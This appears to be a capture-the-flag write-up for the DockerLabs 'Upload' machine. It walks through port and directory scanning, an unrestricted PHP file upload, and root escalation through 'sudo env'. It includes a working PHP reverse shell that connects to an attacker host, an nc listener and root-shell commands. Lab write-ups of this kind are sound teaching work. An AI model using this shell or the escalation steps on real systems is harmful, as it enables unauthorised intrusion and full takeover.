




# Upload — DockerLabs

| Field      | Value              |
|------------|--------------------|
| Platform   | DockerLabs         |
| OS         | Linux              |
| Difficulty | Easy               |
| Tags       | Arbitrary File Upload, PHP reverse shell, sudo env |

---

## 1. Reconnaissance

```bash
nmap -sV -sC <IP>
```

Only port 80 (HTTP) was open. Directory enumeration was essential.

```bash
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt
```



Two key findings:
- `index.html` — contains a file upload form
- `/upload` — directory where uploaded files are stored

---

## 2. Arbitrary File Upload → RCE





The upload form had no file type validation — it accepted any file, including PHP. Created a PHP reverse shell:

```php
<?php
$sock = fsockopen("<KALI-IP>", 4444);
$proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>
```

Started a listener:

```bash
nc -lvnp 4444
```

Uploaded the PHP file via the form, then triggered execution by navigating to:

```
http://<IP>/upload/shell.php
```

Shell received as `www-data`.

---

## 3. Privilege Escalation — sudo env

```bash
sudo -l
```

Output:

```
(root) NOPASSWD: /usr/bin/env
```

`www-data` could run `env` as root without a password. Immediate escalation:

```bash
sudo env /bin/sh
# or
sudo /usr/bin/env /bin/sh
```



---

## Key Takeaways

**Unrestricted file upload + accessible upload directory = RCE.** The two conditions that must both be true: the server executes PHP files (Apache + PHP installed), and the upload directory is web-accessible. Both were true here.

**Always check `sudo -l` first.** It's the fastest and most common privilege escalation vector. NOPASSWD entries are immediate wins.

**`env` as sudo = shell as root.** `sudo env /bin/sh` spawns a shell inheriting the sudo environment (running as root). Same result as `sudo /bin/bash`.
